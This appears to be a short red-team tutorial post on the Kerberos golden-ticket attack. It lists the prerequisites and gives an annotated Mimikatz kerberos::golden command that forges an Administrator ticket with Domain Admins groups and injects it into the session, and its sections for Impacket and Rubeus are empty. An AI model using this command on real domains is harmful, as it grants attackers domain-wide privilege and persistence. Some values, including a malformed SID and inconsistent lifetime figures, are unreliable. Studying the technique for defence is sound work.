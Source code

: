 ```yaml
---
title:  "Kerberos attacks 4-golden Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 4-golden Ticket"
categories:
  - Red-Teaming
toc: true
---
```


## golden Ticket
<img src="/img/golden/sid.PNG" alt="Getting-gz" width="800" height="150"> 

## Forging Kerberos Tickets

##  requirements for forging TG
  Domain Name
SID
Domain KRBTGT Account NTLM password hash
Impersonate user
```
kerberos::golden  ## Name of the module  
/user:Administrator  ## username of which the TGT is generated
/domain:karim.net  ## Domain 
/sid:5-1-5-21-268341927-4156871508- 1792461683  ## SID of the domain 
/krbtgt:a9b30e5bOdc865eadcea9411e4ade72d   NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys. 
/id:500 /groups:512 Optional User RID (default 500) and Group default 513 512 520 518 519)
/ptt  ## Injects the ticket in current PowerShell process ,no need to save the ticket on disk 
/startoffset:0  ##Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future. 
/endin:600  ##Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes 
/renewmax:10080  ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
```
## golden ticket with Mimikatz
## golden ticket with Impacket
## golden ticket with Rubeus.exe
